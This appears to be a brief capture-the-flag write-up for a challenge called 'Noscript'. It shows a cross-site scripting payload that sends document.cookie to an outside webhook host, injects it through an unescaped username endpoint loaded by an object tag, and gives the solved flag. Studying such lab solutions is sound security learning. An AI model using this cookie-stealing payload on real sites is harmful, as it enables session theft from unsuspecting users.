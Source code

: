 ```yaml
---
created: 2024-06-21T20:15
updated: 2024-06-23T08:43
---
```


# Noscript

> Ignite it to steal the cookie!

The endpoint `/username/:id` is open and will return plain text username. We can use this for our script payload.

```html
<script>fetch("https://webhook.site",{method:"POST",body:"flag ="+document.cookie})</script>
```

We will then just load it via a object tag in `profile`.

```html
<object data="/username/e2b49e44-9419-4881-8144-72d17223e3f2" type="text/html"></object>
```

```
FLAG{n0scr1p4_c4n_be_d4nger0us}
```
